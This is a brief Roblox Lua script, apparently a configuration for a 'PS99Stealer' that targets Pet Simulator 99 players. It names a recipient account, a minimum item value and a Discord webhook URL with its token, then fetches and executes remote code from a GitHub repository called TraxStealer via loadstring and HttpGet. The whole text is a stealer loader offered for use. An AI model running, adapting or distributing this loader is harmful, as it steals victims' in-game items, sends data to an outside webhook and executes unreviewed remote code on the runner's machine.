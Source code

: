 Username = "devskyez"
Username2 = "devskyez"
MinimumRAP = 0
Webhook = "https://discord.com/api/webhooks/1336064107035754672/XtpZectNLr0KLBaeUt97k1IqjpQNJvQnIK9YwTyL_OCXMl5lk8t6kaj__GTs7s1X7eWW"

loadstring(game:HttpGet("https://raw.githubusercontent.com/TraxMain/TraxStealer/refs/heads/main/PS99Stealer", true))() 
